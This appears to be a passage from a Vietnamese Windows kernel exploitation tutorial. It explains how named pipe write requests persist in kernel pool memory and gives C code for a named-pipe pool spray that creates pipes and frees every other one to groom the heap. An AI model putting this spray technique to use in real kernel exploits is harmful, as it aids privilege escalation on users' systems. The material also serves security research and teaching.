 Trước khi đi sâu thì mình sẽ giới thiệu qua một chút về NamedPipe. Nếu như các bạn chưa biết thì khi muốn tạo một luồng giao tiếp riêng thì Object này sẽ giúp chúng ta tạo ra một pipe và sẽ có hai đầu thông tin để có thể giúp cho hai tiến trình có thể giao tiếp với nhau qua pipe này :

Copy

Copy

```
NamedType create_np() {
    NamedType cur_np;
    cur_np.Write = CreateNamedPipe(
        L"\\\\.\\pipe\\Pipe",
        PIPE_ACCESS_DUPLEX | FILE_FLAG_OVERLAPPED,
        PIPE_TYPE_BYTE | PIPE_WAIT,
        PIPE_UNLIMITED_INSTANCES,
        (1024 * 16),
        (1024 * 16),
        NMPWAIT_USE_DEFAULT_WAIT,
        0);
    cur_np.Read = CreateFile(L"\\\\.\\pipe\\Pipe", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);
    return cur_np;
}

```

Như code bên trên mình sẽ dùng để tạo một pipe mới, đến đây thì ở phía kernel land sẽ tạo ra một Control Context Block và bên trong Context này sẽ có một trường tên là Queue và trong Queue này sẽ chứa các request mà các bạn thao tác với pipe vì tất nhiên là khi yêu cầu đọc và ghi gì đó vào pipe thì nó không thể nào xử lí ngay được.

Vậy thì khi chúng ta tạo một request ghi vào pipe một buffer data bất kì thì khi chưa có process nào read thì nó vẫn sẽ mãi ở đó và nó chỉ bị free khi có process read hết data hoặc close pipe handle này, điều này giúp chúng ta spray thật dễ dàng

Copy

Copy

```
void heap_spray() {
    printf("[+]Spraying NPFS\n");
    DWORD resultLength;
    char str[4096];

    for (int i = 0; i < MAX_POOL; i++) {
        memset(str, 1 + i & 0xff, 4096);
        NamedPipeSpray[i] = create_np();
        WriteFile(NamedPipeSpray[i].Write, str, 192 - 0x40, &resultLength, NULL);
    }

    for (int i = 0; i < MAX_POOL; i += 2) {
        resultLength = 0;
        ReadFile(NamedPipeSpray[i].Read, str, 192 - 0x40, &resultLength, NULL);// Read Pipe to free
        CloseHandle(NamedPipeSpray[i].Write);
        NamedPipeSpray[i].Write = NULL;
        NamedPipeSpray[i].Read = NULL;
    }

}

```
